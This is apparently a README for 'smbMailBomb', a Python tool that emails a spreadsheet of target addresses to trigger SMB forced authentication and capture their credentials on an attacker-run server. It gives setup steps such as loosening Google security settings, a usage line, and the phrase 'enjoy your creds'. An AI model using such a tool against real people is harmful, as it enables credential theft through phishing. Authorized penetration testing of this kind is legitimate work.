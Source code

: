 # smbMailBomb
# A command line utility to test for SMB Forced Authentication
# Set Up Capture Server
Ensure SMB ports 139 and 445 are open on your captuer server
Run your capture server.
# Configure Google to allow the script
## In the Google Admin Panel:
  Click Security
  Enable Less Secure Apps
## In the google account settings
  Click Security
  Allow Less Secure Apps
From the command line run smbMailBomb.py and enjoy your creds. 
# Usage: python3 smbMailBomb2.py -e user@yourGoogleDomain.com -p yourGooglePassword -f path/to/targets.xlsx -ip captureServerIP
  -f path to target xlsx file
  -e your google business email
  -p your google password
  -ip your capture server IP
# Requirments
  pandas==0.23.4
  colorama==0.3.9
# XLSX
Add your targets first name and email, following the template provided.
